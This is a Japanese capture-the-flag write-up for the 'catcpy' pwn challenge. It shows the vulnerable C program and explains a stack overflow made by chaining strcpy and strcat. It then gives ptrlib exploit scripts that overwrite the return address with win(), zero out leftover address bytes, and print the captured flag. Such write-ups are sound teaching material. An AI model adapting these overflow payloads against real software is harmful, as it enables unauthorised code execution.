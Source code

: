 # catcpy:Pwn:148pts
`strcat` and `strcpy` are typical functions used in C textbooks.  

[catcpy.tar.gz](catcpy.tar.gz)  

`nc 34.170.146.252 13997`  

# Solution
ファイル一式と接続先が渡される。  
ソースは以下の通りであった。  
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char g_buf[0x100];

/* Call this function! */
void win() {
  char *args[] = {"/bin/cat", "/flag.txt", NULL};
  execve(args[0], args, NULL);
  exit(1);
}

void get_data() {
  printf("Data: ");
  fgets(g_buf, sizeof(g_buf), stdin);
}

int main() {
  int choice;
  char buf[0x100];

  memset(buf, 0, sizeof(buf));
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);

  puts("1. strcpy\n" "2. strcat");
  while (1) {
    printf("> ");
    if (scanf("%d%*c", &choice) != 1) return 1;

    switch (choice) {
      case 1:
        get_data();
        strcpy(buf, g_buf);
        break;

      case 2:
        get_data();
        strcat(buf, g_buf);
        break;

      default:
        return 0;
    }
  }
}
```
`strcpy`と`strcat`を選択でき、任意の回数行える。  
`win`があるのでそこへ飛ばせばよい。  
`buf`の最大まで`strcpy`を行い、その後`strcat`することで、範囲外に文字列を連結することができるとわかる。  
以下のように`win`を単純に連結する。  
```python
from ptrlib import *

elf = ELF("./catcpy")

sock = Process("./catcpy")
# sock = Socket("nc 34.170.146.252 13997")

sock.sendlineafter("> ", 1)
payload = b"A" * 0xFF
sock.sendlineafter("Data: ", payload)

sock.sendlineafter("> ", 2)
payload = b"B" * 0x19
payload += p64(elf.symbol("win"))  # 0x0000000000401256
sock.sendlineafter("Data: ", payload)

sock.sh()
```
実行してどの操作でもない`0`を選択し、プログラムを終了させると`Invalid address 0x7fa900401256`であった。  
`strcat`はNULLで読み取りを終了し、末尾にNULLを書き込むため上書き前アドレスが少し残っているようだ。  
どうにかして`0x7fa9`の箇所を`0x0000`にしたい。  
運のよいことに何度でも操作は行えるので、`strcat`の書き込む末尾のNULLで`0x00`埋めしてやればよい。  
`get_data`では`fgets`が利用されているので改行まで読み取るが、`strcat`する文字列にNULLが含まれていればそれ以降は読み込まれないため問題はない。  
以下のようにsolver.pyで行う。  
```python
from ptrlib import *

elf = ELF("./catcpy")

# sock = Process("./catcpy")
sock = Socket("nc 34.170.146.252 13997")

# 0xXXXXwin
sock.sendlineafter("> ", 1)
payload = b"S" * 0xFF
sock.sendlineafter("Data: ", payload)

sock.sendlineafter("> ", 2)
payload = b"A" * 0x19
payload += p64(0xAAAAAAAAAA)
sock.sendlineafter("Data: ", payload)

# 0x00XXwin
sock.sendlineafter("> ", 1)
payload = b"S" * 0xFF
sock.sendlineafter("Data: ", payload)

sock.sendlineafter("> ", 2)
payload = b"B" * 0x19
payload += p64(0xBBBBBBBB)
sock.sendlineafter("Data: ", payload)

# 0x0000win
sock.sendlineafter("> ", 1)
payload = b"S" * 0xFF
sock.sendlineafter("Data: ", payload)

sock.sendlineafter("> ", 2)
payload = b"C" * 0x19
payload += p64(elf.symbol("win"))  # 0x401256
sock.sendlineafter("Data: ", payload)

sock.sendlineafter("> ", 0)

sock.sh()
```
実行する。  
```bash
$ python solver.py
[+] __init__: Successfully connected to 34.170.146.252:13997
[ptrlib]$ Alpaca{4_b4sic_func_but_n0t_4_b4s1c_3xp101t}[+] thread_recv: Connection closed by 34.170.146.252:13997
```
flagが得られた。  

## Alpaca{4_b4sic_func_but_n0t_4_b4s1c_3xp101t}